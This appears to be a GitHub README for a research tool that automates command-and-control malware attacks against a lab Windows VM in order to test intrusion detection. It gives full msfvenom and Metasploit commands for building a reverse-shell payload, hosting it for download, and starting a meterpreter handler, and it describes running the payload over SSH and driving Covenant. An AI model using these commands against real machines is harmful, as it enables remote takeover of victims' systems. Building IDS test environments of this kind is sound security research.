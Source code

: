 # C2abstraction
C2 abstraction layer that provides high-level diverse malware attacks to test IDS. 

Important Notes: Updated 11-07-2023

The important python files are 'C2Abstraction' and 'Mouse Script'

# Virtual Machines:

Attacker - Kali Linux (each IP is different => Must change line 64 in setup)

Victim - Another virtual machine (in this case using Windows)

    Preliminary work:
        - Setting up Kali Linux (on VMWare, an alternative is on Oracle VM): https://www.youtube.com/watch?v=pwYH0NNWWzU
        - Setting up victim machine: https://www.youtube.com/watch?v=nvdnQX9UkMY&t=259s

# METASPLOIT:
    How to create a payload?
        - If you are creating a payload for testing directly from terminal
          run command 'msfvenom -p windows/shell/reverse_tcp LHOST=192.168.110.129 LPORT=4444 -f exe > ~/Desktop/ShellCodes/payload.exe'
          NOTE: this command assumes that you have a folder called 'ShellCodes' (can be removed)

    How to deploy the payload? (Need to automate this step)
        - As of right now, you can create a server to host the payload by
          right clicking on the folder and choose 'open terminal here' then
          use the command 'python3 -m http.server'

        - How to access this sever on the victim machine?
            * Open a webserver and type in 'http://{ip of kali machine}:{port number}'
            * In this case it is 'http://192.168.239.128:8000 (8000 is the default port)

    How to run msfvenom?
        - run 'msfconsole' in command line
        - then type in 'use exploit/multi/handler'
        - then set payload as 'set payload windows/meterpreter/reverse_tcp'
        - set host using 'set lhost {attacker ip}'
        - set listening port using 'set lport {target_port}'
        - then type in 'exploit'
        NOTE: in the code this whole sequence is chained into one line on line 46: 'use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost {target_ip}; set lport {target_port}; exploit;


    How to track if HTTP commands/connections are going through?
        -You can catch the logs of the HTTP connections in real time by
            * going to /etc
            * then go to /ssh
            * then use 'nano' command to edit the 'sshd_config' file
            * look for the line '#LogLevel INFO'
            * remove the # then replace INFO with 'VERBOSE'
            * now run 'sudo journalctl -f' in the command line to track the logs
    
    How to run the payload on the victim machine?
        - Using SCP we can connect to the victim machine via SSH and execute the payload 


# COVENANT:

NOTE: What is the difference between covenant and metasploit?

        - Covenant has a web GUI that requires a script to control the mouse to deploy the malware

How to download covenant/introduction to covenant: https://www.youtube.com/watch?v=BLMW0fougFM
How to use the interface: https://www.youtube.com/watch?v=iX_qsbbNk2w

Mouse Script:
    - This python file is used to automatically control your mouse to create a listener on the GUI
      and create the "grunt" (used for collecting information)




# Citation
    @Unpublished{HungVu_IDS_TESTING_C2,
      author = {Hung Anh Vu},
      title = {{Research Testing Environment}},
      url = {https://github.com/HungAnhVu/C2abstraction},
      version = {1.0.0},
      year = {2023}
    }
